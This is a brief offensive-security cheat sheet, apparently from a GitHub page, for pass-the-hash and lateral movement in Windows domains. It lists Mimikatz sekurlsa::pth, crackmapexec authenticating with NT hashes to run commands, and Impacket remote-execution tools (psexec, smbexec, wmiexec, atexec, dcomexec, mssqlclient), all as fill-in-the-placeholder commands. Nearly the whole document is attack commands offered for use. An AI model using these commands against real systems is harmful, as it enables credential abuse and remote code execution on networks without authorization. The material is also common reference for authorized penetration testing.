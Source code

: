### Mimikatz
```
token::revert
```
```
sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<NT_HASH> /run:"COMMAND>"
```
### Crackmapexec
```
crackmapexec <PROTOCOL> <HOST> -d <DOMAIN> -u <USER> -H <NT_HASH> -x <COMMAND>
#Can use --local-auth instead of -d
#-t <THREADS>
#--verbose
```
### Impacket
- If you have a kerberos ticket, you can omit -hashes and use -k -no-pass instead
```
impacket-smbclient <DOMAIN>\<USER>:<PASSWORD>@<HOST>
```
```
impacket-smbexec <DOMAIN>\<USER>:<PASSWORD>@<HOST>
```
```
impacket-psexec <DOMAIN>\<USER>:<PASSWORD>@<HOST>
```
```
impacket-atexec <DOMAIN>\<USER>:<PASSWORD>@<HOST>
```
```
impacket-wmiexec <DOMAIN>\<USER>:<PASSWORD>@<HOST>
```
```
impacket-dcomexec <DOMAIN>\<USER>:<PASSWORD>@<HOST>
```
```
impacket-mssqlclient <DOMAIN>\<USER>:<PASSWORD>@<HOST>
```
- Other Impacket scripts
```
impacket-GetADUsers
impacket-getArch
impacket-lookupsid
impacket-machine_role
impacket-netview
impacket-rdp_check
impacket-mqtt_check
impacket-mimikatz
impacket-reg
impacket-services
impacket-rpcdump
impacket-samrdump
impacket-addcomputer
```